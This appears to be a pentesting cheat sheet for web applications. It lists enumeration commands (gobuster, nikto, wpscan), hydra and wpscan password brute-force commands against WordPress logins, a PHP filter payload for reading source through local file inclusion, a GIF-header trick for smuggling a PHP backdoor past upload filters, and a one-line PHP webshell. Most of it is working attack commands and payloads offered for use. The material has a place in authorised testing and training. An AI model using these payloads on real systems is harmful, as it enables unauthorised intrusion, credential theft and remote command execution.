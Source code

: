 Generic Webapp Starting Points
==============================

Identify & Enumerate
--------------------

### Identify interesting files on the webserver not linked from the root

URL lists:
- https://github.com/danielmiessler/SecLists/

```
gobuster -u http://$IP  -w /pentest/seclists/Discovery/Web_Content/raft-medium-files.txt -e -r -l
```

```
nikto -h $IP > nikto_results
```

Don't forget the obvious ones:
- robots.txt
- license.txt

### Wordpress Identification
```
wpscan --enumerate --threads 20 --batch --log --url http://$IP
```

### Wordpress Enum Users
After generating a users.txt and a pass.txt, give them all a try:
```
hydra -L users.txt -P pass.txt 192.168.100.181 http-form-post \
"/wp-login.php:log=^USER^&pwd=^PASS^:login_error""
```
Here, `login_error` is the string to find when the user/pass doesn't work.

```
wpscan --log --batch --url $IP  --wordlist ${PWD}/pass.txt --username admin --threads 20
```

Exploitation
------------

### Local File Inclusion

If you have
```
include($_GET['page'] . ".php");
```
You can reveal php contents with:

?page=php://filter/convert.base64-encode/resource=index
```
and some clever scripting

### Image Upload

1. Try just taking on an extension: `backdoor.php.gif`
2. Try prefixing the file with a small gif:
```
printf "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x00\xff\x00\x2c\x00\x00\x00\x00\x01\x00\x01\x00\x00\x02\x00\x3b" > backdoor.php.gif
cat backdoor.php >> backdoor.php.gif
```

Tools
-----
### Webshell:
Simple webshell:

```
<?php @system($_POST['cmd']); ?>
```
